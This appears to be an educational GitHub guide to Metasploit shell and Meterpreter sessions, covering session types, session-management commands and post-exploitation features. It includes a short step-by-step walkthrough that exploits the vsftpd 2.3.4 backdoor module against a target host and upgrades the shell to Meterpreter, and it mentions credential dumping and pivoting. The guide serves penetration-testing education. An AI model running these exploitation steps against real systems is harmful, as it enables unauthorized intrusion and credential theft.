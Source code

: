 ## Mastering Metasploit: Shell & Meterpreter Sessions

Metasploit is one of the most powerful penetration testing frameworks available today, providing security professionals, ethical hackers, and researchers with a robust set of tools for vulnerability exploitation, reconnaissance, and post-exploitation tasks. Developed by Rapid7, Metasploit enables users to simulate real-world cyberattacks, assess security defenses, and identify weaknesses before malicious actors do.

Among its many capabilities, session management is one of the most crucial aspects of post-exploitation. Sessions determine the level of access, interaction, and control that an attacker has over a compromised system. Understanding how to work with Shell and Meterpreter sessions in Metasploit is key to conducting effective security assessments.

Understanding Metasploit Sessions
When an exploit successfully compromises a target system, a session is created. This session acts as a communication channel between the attacker’s system and the compromised machine. Sessions can vary in terms of functionality, from a simple command shell to a fully interactive and stealthy post-exploitation environment like Meterpreter.

Types of Metasploit Sessions;

1. Shell Sessions – A basic command-line access to the target system, offering minimal functionality.
2. Command Shell Sessions – A slightly more interactive environment that allows system commands to be executed with better stability.
3. VNC Sessions – A graphical interface that enables GUI-based control over the compromised system.
4. HTTP/HTTPS Shells – These use HTTP/S communication to bypass firewalls and proxy restrictions, making them stealthier.
5. Java Shells – Payloads that exploit Java vulnerabilities to execute commands remotely.
6. PowerShell Sessions – Specifically for Windows systems, allowing deep integration with PowerShell scripting.
7. Android Meterpreter – A session type designed for Android devices, providing deep access to files, cameras, and system data.
8. PHP Web Shells – Used to compromise web servers via vulnerable web applications.
9. Custom Sessions – Tailor-made payloads generated using msfvenom for highly specific attack scenarios.

### Shell vs. Meterpreter: Which One to Use?

While shell sessions provide only basic access to a target machine, Meterpreter offers a much more powerful and flexible approach to post-exploitation. Meterpreter is a dynamically extensible payload that allows for advanced reconnaissance, privilege escalation, file system manipulation, and pivoting within a network—all without ever writing to disk, making it stealthier.

**Key Differences**

  Feature	                        Shell Session	                     Meterpreter Session
* Functionality	               Basic command execution	          Advanced post-exploitation toolkit
* Persistence	                   No built-in persistence	           Can be made persistent
* File System Access	              Limited                        	Full file system access
* Privilege Escalation	              Manual	                      Automated with built-in commands
* Stealth	                        Easily detected	                  Memory-resident, harder to detect
* Networking	                   No pivoting capabilities	        Can route traffic through target system

### Session Management in Metasploit

After gaining access to a system, managing sessions efficiently is crucial. The following commands help in handling active sessions within Metasploit:

List active sessions:
`sessions -l`

Interact with a specific session:
`sessions -i <session-id>`

Upgrade a shell session to Meterpreter:
`sessions -u <session-id>`

Kill a session:
`sessions -k <session-id>`

### Generating and Using Multiple Sessions

The ability to run multiple sessions is an advantage in penetration testing. The steps below outline how to initiate multiple sessions using Metasploit.

* Start Metasploit
`sudo msfconsole`

* Search for an exploit or payload
`search vsftpd`

* Use an exploit and configure the target
`use exploit/unix/ftp/vsftpd_234_backdoor`
set RHOSTS <target-IP>
set payload cmd/unix/interact

* Execute the exploit
`exploit`

* View active sessions and upgrade shell to Meterpreter
`sessions -l`
`sessions -u 1`

At this point, a **Shell Session** is upgraded to a **Meterpreter Session**, allowing deeper system access. With Meterpreter, one can manipulate files, dump credentials, escalate privileges, and pivot through a network to expand an attack surface.

### Ethical Considerations and Responsible Usage

While Metasploit is a powerful penetration testing tool, its use must align with ethical hacking principles and legal regulations. Conducting unauthorized security assessments, exploiting systems without permission, or misusing these techniques can result in severe legal consequences.

🛑 This project is strictly for educational purposes. The author assumes no responsibility for any misuse or illegal activity. Users must ensure compliance with applicable cybersecurity laws and ethical guidelines.

### Conclusion
Understanding Shell and Meterpreter sessions is an essential skill for cybersecurity professionals. While a basic shell provides minimal access, Meterpreter unlocks powerful post-exploitation capabilities that can be leveraged for in-depth security assessments. By mastering session management and payload deployment, security teams can strengthen defenses, mitigate vulnerabilities, and enhance organizational security postures.

🚀 Cybersecurity is a responsibility. Learn it, use it, and protect systems ethically!
